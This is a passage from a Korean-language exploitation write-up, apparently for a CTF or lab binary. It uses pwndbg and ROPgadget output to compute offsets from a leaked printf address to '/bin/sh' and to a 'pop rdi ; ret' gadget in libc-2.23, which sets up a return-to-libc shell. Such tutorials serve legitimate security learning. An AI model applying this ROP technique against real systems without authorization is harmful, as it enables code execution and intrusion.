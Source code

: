 ## printf 와 /bin/sh 와의 거리 

8. 마찬가지로 다음의 방정식에서 `Y` 의 값을 구할 수 있다면 유출된 print` 함수의 주소값에 `Y` 를 더하면 `/bin/sh` 구할 수 있다. 

    - `(printf 의 주소값) + Y = (/bin/sh 의 주소값)`

9. 역시 마찬가지로 `(printf 의 주소값)` 을 이항시켜서 `Y` 를 구할 수 있다. 

`Y = (/bin/sh 의 주소값) - (printf 의 주소값)`

10. `gdb` 를 통한 간단한 연산으로 `Y` 가 `1275223` 라는 것을 알 수 있다. 

    ```shell
    pwndbg> search /bin/sh
    libc-2.23.so    0x7f836ff19d57 0x68732f6e69622f /* '/bin/sh' */
    warning: Unable to access 16000 bytes of target memory at 0x7f836ff54d06, halting search.
    warning: Unable to access 16006 bytes of target memory at 0x7f837015a000, halting search.
    pwndbg> p printf
    $9 = {<text variable, no debug info>} 0x7f836fde2800 <__printf>
    pwndbg> p/d 0x7f836ff19d57 - 0x7f836fde2800
    $10 = 1275223
    ```
    
## printf 와 "pop rdi ; ret" 와의 거리 

11. `pop rdi ; ret` 의 가젯이 `libc` 의 어떤 오프셋에 있는지 계산할 수 있다. 그러면 그 오프셋과 `libc` 의 시작 주소값을 더한 후 `printf` 함수와의 거리를 구하면 `printf` 함수로부터 `pop rdi ; ret` 가젯이 어느정도 떨어져있는지 확실하게 알 수 있게 된다.

12. 마찬가지로 printf 에 `Z` 를 더하면 `pop rdi ; ret` 주소값이 계산되는 `Z` 를 구해보자. 

    `(printf 의 주소값) + Z = ("pop rdi ; ret" 가젯의 주소값)`

13. 그러면 `Z` 는 다음과 같다. 

    `Z = ("pop rdi ; ret" 가젯의 주소값) - (printf 의 주소값)`

## "pop rdi ; ret" 의 주소값 

14. 그런데 `pop rdi ; ret` 의 주소값은 이렇게 구할 수 있다. 

    `("pop rdi ; ret" 가젯의 주소값) = (libc 의 베이스 주소값) + ("pop rdi ; ret" 의 오프셋) `

15. 먼저 다음과 같이 gdb 로 libc 의 시작 주소가 0x7f836fd8d000 라는 것을 확인했다. 

    ```shell
    pwndbg> vmmap libc
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
        0x7f836fd8d000     0x7f836ff4d000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    ```
    
16. 그리고 다음과 같이 `ROPgadget` 으로 오프셋을 찾을 수 있다. 

    ```shell
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
    0x0000000000021102 : pop rdi ; ret
    ```
    